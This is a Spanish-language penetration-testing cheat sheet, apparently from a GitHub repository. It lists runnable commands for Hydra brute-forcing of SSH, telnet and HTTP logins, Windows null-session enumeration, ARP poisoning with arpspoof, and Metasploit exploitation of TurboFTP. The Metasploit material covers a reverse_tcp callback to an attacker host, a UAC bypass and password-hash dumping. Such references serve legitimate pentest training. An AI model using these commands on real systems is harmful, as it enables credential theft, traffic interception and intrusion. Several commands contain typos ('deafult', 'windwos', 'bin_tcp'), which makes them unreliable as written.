

# Network Attacks Cheat Sheet

- [Networking](#networking)
  - [Tabla de rutas](#tabla-rutas)
    - [Linux](#tb-linux)
    - [Windows](#tb-windows)
    - [macOS](#tb-macos)
  - [Información de la interfaz](#inet)
    - [Windows](#inet-windows)
    - [\*nix o macOS](#inet-macos)
    - [Linux](#inet-linux)
  - [Tabla ARP](#t-arp)
    - [Windows](#t-arp-windows)
    - [\*unix](#t-arp-unix)
    - [Linux](#t-arp-linux)
  - [Rutas estáticas](#static-route)
    - [Linux](#static-route-linux)
    - [Windows](#static-route-windows)
  - [Sesiones abiertas](#session)
    - [Windows](#session-windows)
    - [Linux](#session-linux)
    - [macOS](#session-macos)
- [Cracking Online](#cracking-online)
  - [Cracking de autenticación](#cracking-auth)
  - [Hydra](#hydra)
    - [Ejemplo de obtención de detalle de módulo RDP](#hydra-2)
    - [Ejemplo cracking telnet con ataque de diccionario](#hydra-3)
    - [Ejemplo de ataque de autenticación HTTP básica](#hydra-4)
    - [Ejemplo de ataque de autenticación HTTP en login usando POST](#hydra-5)
    - [Ejemplo de ataque de autenticación SSH](#hydra-6)
- [Windows Shares](#windows-shares)
  - [NetBIOS](#netbios)
    - [Share Administrativos por defecto usados por el sysadmin de Windows](#admin-share)
    - [Apunta al directorio de instalación de Windows](#share-win-inst)
    - [Share usado por inter-process communication](#share-ipc)
  - [Null Sessions](#null-session)
    - [Nbtstat](#nbtstat)
    - [NET VIEW](#net-view)
    - [Nmblookup](#nmblookup)
    - [Smbclient](#smbclient)
      - [Ejemplo de enumeración: similar a NET VIEW](#smbclient-2)
      - [Ejemplo de ataque usando null session](#smbclient-3)
    - [NET USE](#net-use)
    - [Enum](#enum)
    - [Winfo](#winfo)
    - [Enum4Linux](#enum4linux)
- [ARP Poisoning](#arp-poisoning)
  - [ARPspoof](#arpspoof)
    - [Ataque usando ARPspoof](#arpspoof-2)
- [Metasploit/Meterpreter](#metasploit-meterpreter)
  - [Metasploit](#metasploit)
    - [Flujo de explotación de un objetivo usando MSFconsole](#metasploit-2)
    - [Ejemplo de uso nmap en Metasploit](#metasploit-3)
    - [Ejemplo de explotación de Turbo FTP](#metasploit-4)
  - [Meterpreter](#meterpreter)
    - [Conexiones de Meterpreter](#meterpreter-2)
    - [Comandos de MSFconsole sobre Meterpreter](#meterpreter-3)
    - [Comandos de Shell Meterpreter](#meterpreter-4)
    - [Ejemplo payload reverse_tcp Windows](#meterpreter-5)
    - [Ejemplo payload reverse_tcp Linux](#meterpreter-6)
    - [Ejemplo payload bin_tcp Windows](#meterpreter-7)
    - [Ejemplo payload bin_tcp Linux](#meterpreter-8)
    - [Ejemplo de migración a proceso estable](#meterpreter-9)
    - [Ejemplo de configuración de ruta estática](#meterpreter-10)
    - [Ejemplo de bypass del UAC (User Account Control) Policy](#meterpreter-11)
    - [Ejemplo de dumping de la base de datos de las passwords](#meterpreter-12)

<h2 id="networking">Networking</h2>

<h3 id="tabla-rutas">Tabla de rutas</h3>

<h4 id="tb-linux">Linux</h4>

`ip route`

<h4 id="tb-windows">Windows</h4>

`route print`

<h4 id="tb-macos">macOS</h4>

`netstat -r`

<h3 id="inet">Información de la interfaz</h3>

<h4 id="inet-windows">Windows</h4>

`ipconfig /all`

<h4 id="inet-macos">*nix o macOS</h4>

`ifconfig`

<h4 id="inet-linux">Linux</h4>

`ip addr`

<h3 id="t-arp">Tabla ARP</h3>

<h4 id="t-arp-windows">Windows</h4>

`arp -a`

<h4 id="t-arp-unix">*nix</h4>

`arp`

<h4 id="t-arp-linux">Linux</h4>

`ip neighbour`

<h3 id="static-route">Rutas estáticas</h3>

<h4 id="static-route-linux">Linux</h4>

`ip route add [network] via [gw] dev [interface]`

`ip route add 172.16.0.0/16 via 192.168.1.1 dev eth0`

`ip route add deafult via 192.168.1.1 dev eth0`

<h4 id="static-route-windows">Windows</h4>

`route add [network] mask [mask] [gw]`

`route add 192.168.35.0 mask 255.255.255.0 192.168.0.2`

<h3 id="session">Sesiones abiertas</h3>

<h4 id="session-windows">Windows</h4>

`netstat -ano`

<h4 id="session-linux">Linux</h4>

```
-t: habilita TCP
-u: habilita UDP
-n: mostrar solo la IP
-p: muestra el PID y el nombre del programa
```

`netstat -tunp`

<h4 id="session-macos">macOS</h4>

`netstat -p tcp -p udp`

`lsof –n –i4TCP –i4UDP`
 
<h2 id="cracking-online">Cracking Online</h2>
 
<h3 id="cracking-auth">Cracking de autenticación</h3>
 
Es posible crackear la autenticación de varios protocolos de red como, por ejemplo:

-	SSH
-	Telnet
-	Autenticación HTTP
-	RDP

Para el cracking de la autenticación de red, se recomienda usar un ataque basado en diccionario, debido que, en el cracking online, influye lo siguiente:

-	Latencia de la red
-	Delay del servicio atacado
-	Tiempo de proceso en el servidor atacado

El siguiente [link](https://wiki.skullsecurity.org/Passwords) posee varios diccionarios que pueden ser utilizados en este tipo de ataques.

En caso de querer instalar los diccionarios, en Kali se puede usar el siguiente comando, que los guarda en la siguiente ruta: `/usr/share/seclists/Passwords`

`apt install seclists`

<h3 id="hydra">Hydra</h3>

Herramienta que permite realizar cracking de autenticación de múltiples protocolos usando un método de fuerza bruta o basado en diccionario. Hydra trabaja con módulos, los cuales, son códigos que permiten atacar a un protocolo específico. Dentro de los protocolos soportados, se encuentran los siguientes:

- Cisco Auth
-	RDP
-	FTP
-	SMB
-	IMAP
-	Telnet
-	HTTP
-	SSH

Comando:

`hydra [option]`

```
-h: Ayuda
-U [module]: Obtener el detalle de un módulo. Estos módulos se encuentran en la sección “Supported services” de la ayuda
-L: Lista de usuarios
-P: Lista de passwords
-f: Detener la busqueda con el primer resultado
-V: Verbose
http-post-form: Usar formulario POST
http-get: Usar método GET
```

<h4 id="hydra-2">Ejemplo de obtención de detalle de módulo RDP</h4>

`hydra -U rdp`

<h4 id="hydra-3">Ejemplo cracking telnet con ataque de diccionario</h4>

`hydra -L user.txt -P pass.txt telnet://target.server`

<h4 id="hydra-4">Ejemplo de ataque de autenticación HTTP básica</h4>

`hydra -L user.txt -P pass.txt http-get://target.server`

<h4 id="hydra-5">Ejemplo de ataque de autenticación HTTP en login usando POST</h4>

`hydra target.site http-post-form “/login.php:usr=^USER^&pwd=^PASS^:invalid credentials” -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/rockyou-15.txt -f -V`

<h4 id="hydra-6">Ejemplo de ataque de autenticación SSH</h4>

`hydra target.site ssh -L user.txt -P pass.txt -f -V`

<h2 id="windows-shares">Windows Shares</h2>

<h3 id="netbios">NetBIOS</h3>

NetBIOS (Network Basic input Output System) es un protocolo que permite compartir archivos, administración de impresoras, proveer autenticación, etc., entre un cliente y un servidor.

Este protocolo puede proveer lo siguiente:

-	Hostname
-	NetBIOS name
-	Dominio
-	Network shares

Utiliza los siguientes puertos:

-	**UDP 137:** NetBIOS names. Usado para encontrar grupos de trabajo (workgroups).
-	**UDP 138:** NetBIOS datagrams. Usado para listar los shares y las máquinas.
-	**TCP 139:** NetBIOS Session. Usado para transmitir datos para y desde un Windows share.

Un Windows puede compartir un archivo o un directorio en la red (shares).

Se puede acceder mediante un UNC (Universal Naming Convertion) Path. Ejemplo: **\\\ServerName\ShareName\file.txt**

<h4 id="admin-share">Share Administrativos por defecto usados por el sysadmin de Windows</h4>

Permite a un admin ingresar a un volumen de la máquina

`\\ComputerName\C$`

<h4 id="share-win-inst">Apunta al directorio de instalación de Windows</h4>

`\\ComputerName\admin$`

<h4 id="share-ipc">Share usado por inter-process communication</h4>

> No se puede acceder por Windows Explorer.

`\\ComputerName\ipc$`

<h3 id="null-session">Null Sessions</h3>

Ataque que puede ser usado para enumerar y obtener la siguiente información:

-	Passwords
-	Usuarios de sistema
-	Grupos de sistema
-	Procesos corriendo en el sistema

Este ataque explota una vulnerabilidad de autenticación para Windows Administrative Share, permitiendo conectarse al local share o remote share sin autenticación. 

<h4 id="nbtstat">Nbtstat</h4>

Herramienta de Windows que permite enumerar Windows Shares.

`nbtstat [option]`

```
/?: Help
-A [IP]: Mostrar información del objetivo:
         Name: Nombre de la máquina
         Type: <00> equivale a Workstation. <20> Servicio de file sharing corriendo la máquina. UNIQUE indica que solo tiene una IP
         También, muestra el dominio o el workgroup al que pertenece
```

<h4 id="net-view">NET VIEW</h4>

Herramienta que permite enumerar los shares detectados con nbtstat (type <20>).

`NET VIEW [IP]`

<h4 id="nmblookup">Nmblookup</h4>

Herramienta de enumeración para Linux. Esta corresponde a la Suite de Samba.

`nmblookup [option]`

```
-A [IP]: Muestra información de objetivo (similar a nbtstat -A [IP])
```

<h4 id="smbclient">Smbclient</h4>

Utilidad de la Suite de Samba que permite acceder a los shares de Windows.

`smbclient [option] //[IP] [option]`

```
-L: Permite ver que servicios están disponibles en el objetivo
-N: Fuerza a la herramienta a no preguntar por la password
```

<h5 id="smbclient-2">Ejemplo de enumeración: similar a NET VIEW</h5>

`smbclient -L //192.168.10.12 -N`

<h5 id="smbclient-3">Ejemplo de ataque usando null session</h5>

`smbclient  //192.168.10.12/IPC$ -N`

`smbclient  //192.168.10.12/C$ -N`


<h4 id="net-use">NET USE</h4>

Herramienta de Windows que permite explotar null sessions.

`NET USE \\[IP]\IPC$ '' /u: ''`

<h4 id="enum"><a href="https://packetstormsecurity.com/search/?q=win32+enum&s=files">Enum</a></h4>

Herramienta para Windows que puede obtener información del sistema vulnerable a null sessions.

`enum [option] [IP]`

```
-S: Enumeración de shares
-U: Enumeración de usuarios
-P: Enumeración de parámetros de password (con esto se pueden realizar otros tipos de ataques)
```

<h4 id="winfo"><a href="https://packetstormsecurity.com/search/?q=winfo&s=files">Winfo</a></h4>

Herramienta para Windows que permite automatizar la explotación de los null session.

`winfo [IP] -n`

<h4 id="enum4linux">Enum4Linux</h4>

Herramienta similar a enum y winfo, pero para Linux.

Por defecto, este ejecuta:

-	Enumeración de:
  -	Usuarios
  -	Shares
  -	Grupos y miembros
  -	Extracción del Password Policy
  -	Detección de información del OS
  -	Ejecuta un nmblookup
  -	Extracción de información de las impresoras

`enum4linux [option] [IP]`

```
-a: Realiza todas las enumeraciones simples (-U -S -G -P -r -o -n -i)
```

Solución error de SMB:

- Agregar lo siguiente al archivo de configuracion de SMB: `/etc/samba/smb.conf`

```
# Fix enum4linux error
   client min protocol = CORE
   client max protocol = SMB3
```

<h2 id="arp-poisoning">ARP Poisoning</h2>

Este ataque permite interceptar tráfico de una red manipulando la tabla ARP de los demás (ataque man-in-the-middle, MITM). El ataque se logra enviando mensajes Gratuitous ARP Replies (mensajes ARP Reply no solicitados).

El atacante puede evitar que el envenenamiento expire un mensaje Gratuitous ARP Reply cada 30 segundos (por ejemplo). 

<h3 id="arpspoof">ARPspoof</h3>

Arpspoof es una herramienta de la colección Dsniff, la cual, permite realizar ataques de ARP spoofing.

`arpspoof -i [interface] -t [target] -r [host]`

<h4 id="arpspoof-2">Ataque usando ARPspoof</h4>

1. Habilitar reenvío de paquetes:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

2. Lanzar ARPspoof:

`arpspoof -i eth0 -t 192.168.1.12 -r 192.168.1.30`

<h2 id="metasploit-meterpreter">Metasploit/Meterpreter</h2>

<h3 id="metasploit"><a href="https://linuxhint.com/install_metasploit_ubuntu/">Metasploit</a></h3>

Framework open-source usado para pentesting y desarrollo de exploits. Este utiliza una base de datos Postgresql.

Posee una interfaz web, CLI y una interfaz de consola (MSFconsole).

Metasploit usa jerarquía tipo file system para las rutas de los encoders, nops, exploits, payloads y módulos auxiliares (ejemplo, los exploits de Windows comienzan con exploit/windows/):



Un payload es una pieza de código inyectada en un módulo de exploit en la víctima, el cual, permite obtener lo siguiente:

-	Una Shell del OS
-	Una conexión VNC o RDP
-	Una Shell Meterpreter
-	Ejecutar una aplicación suministrada por el atacante

<h4 id="metasploit-2">Flujo de explotación de un objetivo usando MSFconsole</h3>

-	Identificar un servicio vulnerable
-	Buscar el exploit apropiado para dicho servicio
-	Cargar y configurar el exploit
-	Cargar y configurar el payload que se requiere usar
-	Correr el código del exploit y obtener acceso a la máquina vulnerable

Dentro de la consola, cada comando posee la opción `-h` para ver una breve descripción y ayuda de este.

```
msfdb init: Inicia la base de datos
msfconsole: Inicia MSFconsole
msfconsole -q: Inicia MSFconsole sin el banner
db_status: Valida si Metasploit se conectó con la DB
help/?: Muestra el menú de ayuda de Metasploit
search [modules]: Buscar módules
back: Volver al prompt de MSF
info: Ver información del exploit habilitado
connect: Función similar a netcat
banner: Muestra el banner
show exploits:Ver todos los exploits de MSF
show payloads: Ver todos los payloads de MSF. Si este es usado dentro de un módulo de exploit, solo mostrará los payloads que puede ser usados en este
use exploit/[module]: Habilitación de un exploit
set [option]: Configurar el valor de una variable (obtenidas mediante comando show options)
setg [option]: Configurar el valor de una variable de forma global
unset [option]: Elimina la configuración de una variable
spool [file]: Escribe la salida de la consola en un archivo y también en la pantalla
save: Guarda los datastores activo
db_nmap [option] [IP]: Usar nmap en Metasploit
hosts: Lista todos los hosts en la base de datos
services: Lista todos los servicios en la base de datos
vulns: Lista todas las vulnerabilidades en la base de datos
run/exploit: Ejecutar el exploit configurado
```

<h4 id="metasploit-3">Ejemplo de uso nmap en Metasploit</h4>

```
msfdb init
msfconsole
db_status
db_nmap -sV 192.168.10.200
hosts
services
vulns
```

<h4 id="metasploit-4">Ejemplo de explotación de Turbo FTP</h4>

```
msfconsole
use exploit/windows/ftp/turboftp_port
info
show options
set RHOST 192.168.1.10
set FTPUSER example
set FTPPASS example123
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.1.4
set LPORT 1234
exploit
```

<h3 id="meterpreter">Meterpreter</h3>

Payload especial con características diseñadas para el pentesting. Corresponde a una Shell, que puede correr en aplicaciones y servicios vulnerables de: Android, BSD, Java, Linux, PHP, Python y Windows.

Dentro de las cosas que pueden hacer con Meterpreter, se tiene lo siguiente:
-	Information Gathering:
 -	Información de la máquina
 -	OS
 -	Red
 - Tabla de rutas
 -	Usuarios que corren el proceso explotado
-	Transferir archivos
-	Instalar backdoors
-	Tomar screenshots
-	Etc.

<h4 id="meterpreter-2">Conexiones de Meterpreter</h4>

-	**bin_tcp:** corre un proceso de servidor en la máquina objetivo, que espera por una conexión desde la máquina atacante.
-	**reverse_tcp:** realiza una conexión TCP de vuelta hacia la máquina atacante (puede ser usado como backdoor para evadir dispositivos firewall).

<h4 id="meterpreter-3">Comandos de MSFconsole sobre Meterpreter</h4>

```
search meterpreter: Buscar los payloads de Meterpreter
set payload [meterpreter_payload]: Configurar payload de Meterpreter
sessions -l: Ver las sesiones abiertas
sessions -i [session_id]: Cambiar a una sesión Meterpreter abierta
```

<h4 id="meterpreter-4">Comandos de Shell Meterpreter</h4>

```
background: Cambiar de sesión Meterpreter por la consola (sin cerrar la sesión)
sysinfo: Obtener información del sistema
ifconfig: Ver configuración de red de la víctima
route: Ver tabla de rutas
pwd: Saber el directorio actual
cd [path]: Cambio de directorio
ls: Listar archivos y directorios
download [remote_file] [local_path]: Descargar archivos
upload [local_file] [remote_path]: Cargar archivo
shell: Correr una shell del OS víctima
getuid: Obtener información del usuario actual
getsystem: Corre una rutina para escalar privilegios (en Windwos el usuario system es el que tiene más privilegios)
```
<h4 id="meterpreter-5">Ejemplo payload reverse_tcp Windows</h4>

`set payload windows/meterpreter/reverse_tcp`

<h4 id="meterpreter-6">Ejemplo payload reverse_tcp Linux</h4>

`set payload linux/x86/meterpreter/reverse_tcp`

<h4 id="meterpreter-7">Ejemplo payload bin_tcp Windows</h4>

`set payload windows/meterpreter/bin_tcp`

<h4 id="meterpreter-8">Ejemplo payload bin_tcp Linux</h4>

`set payload linux/x86/meterpreter/bin_tcp`

<h4 id="meterpreter-9">Ejemplo de migración a proceso estable</h4>

> Se recomienda el uso de spoolsv.exe (se debe indicar el PID).

```
ps
migrate 1320
```

<h4 id="meterpreter-10">Ejemplo de configuración de ruta estática</h4>

```
run autoroute -s 172.18.1.0 -n 255.255.255.0
```

<h4 id="meterpreter-11">Ejemplo de bypass del UAC (User Account Control) Policy</h4>

> Tener en cuenta que en sistemas Windows modernos, el UAC previene la escalación de privilegios, por lo tanto, solo con getsystem no será suficiente.

```
background
search bypassuac
use exploit/windwos/local/bypassuac
show options
set session 1
exploits
getuid
getsystem
```

<h4 id="meterpreter-12">Ejemplo de dumping de la base de datos de las passwords</h4>

Esto entrega los hashes, que permiten realizar un crackeo offline.

```
background
use exploit/windows/gather/hashdump
show options
set session 2
exploit
```
